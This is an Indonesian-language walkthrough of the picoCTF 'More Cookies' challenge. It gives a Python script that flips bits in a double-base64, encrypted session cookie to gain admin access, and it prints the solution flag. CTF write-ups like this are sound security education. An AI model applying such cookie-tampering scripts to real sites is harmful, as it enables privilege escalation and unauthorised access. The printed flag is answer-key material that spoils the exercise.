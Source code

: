 # More Cookies
- Link: https://play.picoctf.org/practice/challenge/124?category=1&page=1

## Tantangan
I forgot Cookies can Be modified Client-side, so now I decided to encrypt them! http://mercury.picoctf.net:15614/

## Penyelesaian
- Sekarang kita coba akses cookie di web tersebut dengan tool `curl`
```sh
curl -I http://mercury.picoctf.net:15614/
```

![alt text](https://github.com/rahardian-dwi-saputra/picoCTF-writeup/blob/main/Web%20Exploitations/More%20Cookies/assets/more%20cookies%201.JPG)

- Sekarang kita coba decode value cookie `auth_name` dengan base64. Disini terlihat bahwa cookie tersebut masih terencode dengan base64
```sh
echo 'copy_cookie_disini' | base64 -d
```

![alt text](https://github.com/rahardian-dwi-saputra/picoCTF-writeup/blob/main/Web%20Exploitations/More%20Cookies/assets/more%20cookies%202.JPG)

- Setelah kita coba decode lagi, ternyata cookie tersebut dalam keadaan terenkripsi

![alt text](https://github.com/rahardian-dwi-saputra/picoCTF-writeup/blob/main/Web%20Exploitations/More%20Cookies/assets/more%20cookies%203.JPG)

- Menurut deskripsi tantangan ini, kita bisa mengubah cookie tersebut dalam bentuk yang masih terenkripsi. Namun, jika metode enkripsinya [Homomorfik](https://en.wikipedia.org/wiki/Homomorphic_encryption), perubahan yang dilakukan pada bentuk cookie terenkripsi tersebut akan mempengaruhi bentuk yang didekripsi. Ini dapat dieksploitasi menggunakan [Bit Flipping Attack](https://en.wikipedia.org/wiki/Bit-flipping_attack). Dengan harapan kita bisa mengubah plaintext pada admin dari `0` menjadi `1`
- Kita bisa lakukan Bit Flipping Attack dengan program python. Copy source code berikut ini lalu simpan dengan nama `more_cookies.py`
```sh
from pwn import *
import requests
import base64
import re

#Mengambil cookie
s = requests.Session()
r = s.get("http://mercury.picoctf.net:15614/")
cookie = s.cookies["auth_name"]
print('Cookie : ',cookie)

#Decode cookie dan convert ke byte array
raw_cookie = bytearray(base64.b64decode(base64.b64decode(cookie)))
n = len(raw_cookie)

success = False
for i in range(n):
	for j in range(8):
		mask = (1 << j)
		
		#Flip Bit
		raw_cookie[i] = raw_cookie[i] ^ mask
		
		#Inject Cookie
		new_cookie = base64.b64encode(base64.b64encode(raw_cookie)).decode("ascii")
		r = requests.get("http://mercury.picoctf.net:15614/", cookies = {"auth_name": new_cookie})
		
		#Mencari Flag dengan regex
		flag = re.search(r"picoCTF{[^}]+}", r.text)
		if flag is not None:
			print('Flag : ',flag.group(0))
			success = True
			break
		else:
			#Kembali Semula
			raw_cookie[i] = raw_cookie[i] ^ mask
			
	if success == True:
		break

```
- Setelah itu kita eksekusi program tersebut di terminal
```sh
python3 more_cookies.py
```

![alt text](https://github.com/rahardian-dwi-saputra/picoCTF-writeup/blob/main/Web%20Exploitations/More%20Cookies/assets/more%20cookies%204.JPG)

- Flag
```sh
picoCTF{cO0ki3s_yum_a9a19fa6}
```